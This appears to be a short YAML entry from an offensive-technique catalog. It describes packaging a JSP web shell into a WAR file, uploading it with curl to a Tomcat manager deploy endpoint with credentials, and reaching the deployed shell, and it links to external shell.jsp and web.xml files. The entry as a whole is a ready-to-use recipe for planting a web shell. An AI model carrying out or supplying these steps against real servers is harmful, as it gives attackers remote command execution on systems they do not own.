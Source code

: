 ```yaml
---
functions:
  shell:
    - description: WAR and jsp web shell
      code: |
        (1) File Structure:
          ── shell.jsp
          ── WEB-INF
              ── web.xml
        (2) jar -cf shell.war *
        (3) curl --upload-file shell.war http://10.10.10.194:8080/manager/text/deploy?path=/{context}&update=true -u {username}
        (4) https://{address}/{context}
resources:
  https://raw.githubusercontent.com/MidnightSeer/scripts/master/shell.jsp
  https://raw.githubusercontent.com/MidnightSeer/scripts/master/web.xml    
---
```

